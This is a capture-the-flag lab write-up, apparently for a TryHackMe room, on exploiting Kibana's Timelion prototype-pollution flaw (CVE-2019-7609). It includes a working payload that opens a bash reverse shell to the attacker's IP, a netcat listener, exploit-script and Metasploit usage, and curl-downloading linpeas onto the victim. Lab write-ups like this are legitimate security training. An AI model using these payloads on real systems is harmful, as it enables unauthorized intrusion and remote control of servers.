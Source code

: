 Before you begin, always add your ip address to hosts file so as to avoid burden especially ip address related operations, while you are actively pentesting.

How to apply ?

![](attachment/cf3a2e5dd2d551b8640a2d493f3ee36f.png)

## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:

![](attachment/e8a15745496651c4b5b275912f8c037d.png)

![](attachment/c449e8ca809ba166e891781ff3d6294a.png)

What is Kibana ?
![](attachment/f63b01787e995edea417abe07af45384.png)

Suspicious path:
http://kiba.thm:5601/app/timelion#



## Exploitation

Useful resources about vulnerability:
- https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

For the exploitation phase we have two ways to compromise the target.
- Manual payload execution on 
### Manual Exploitation - 1

After a couple of research process, I discovered the vulnerability itself which is **Prototype Pollusion** on **Timelion** feature of the **Kibana** - ElasticSearch supported and opensource data visualization platform.

![](attachment/729ac78be8e9db4f7c4fed3c058becbc.png)


Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:
![](attachment/c01fde4a727b62e56d674dae6346ddbf.png)



### Manual Exploitation - 2

Although I have taken reverse shell connection properly, trying a python script where I discovered the vulnerability that trigger RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.

![](attachment/d24a174170333ddd84070e2414595cc2.png)

![](attachment/eaaad08b9760b6b943ea9af458e1c8cd.png)


Now it works ! After I restarted the machine, I was able to get my reverse shell !

![](./attachment/11df5f7c7c9ac5dfcab4d51099732301.png)


### Automated Exploitation

Metasploit Framework offers only three modules for **Kibana** platform. However, first approach was suitable for me. You can reach out the related module in below.

![](./attachment/c59ebbaa12eec0413d0a11bff25962e1.png)

To interact with correlated module:

```
use 0
```

Now you are ready to configure module specific settings.

In order to show options required by the module, use the below command:

```
show options
```

![](./attachment/c53a369d6204c98af36def3009c7b52d.png)

Modifying the *RHOSTS*, *TARGETURI* and *RPORT* is enough to execute our exploit.

To add necessary information to script settings:

```
set [needed attribute]

Example: set RHOSTS or set RPORT
```

For this scenario, do not forget to modify *RHOSTS*, *LHOST* and *LPORT*.

![](./attachment/a20b149b5028537d238919c11e7979b7.png)

Since I forgot to give *LHOST* and *LPORT* option, I was not able to run the script appropriately.



I have tried to run linpeas on tmp folder which allows users to run many scripts here ,but in this scenario it does not work. Therefore, I uploaded my files through /home/kiba

1. Deploy python server from local
```
python -m http.server 3131
```

2. Download linpeas from victim machine
```
curl http://10.11.69.113:3131/linpeas.sh -o linpeas.sh
```

3. Give executable permission to linpeas.sh
```
chmod +x linpeas.sh
```

4. Examine carefully  the linpeas output
- I found really useful evidence to escalate our privileges

![](./attachment/93756ad44bea650fa9d6eff977b07209.png)



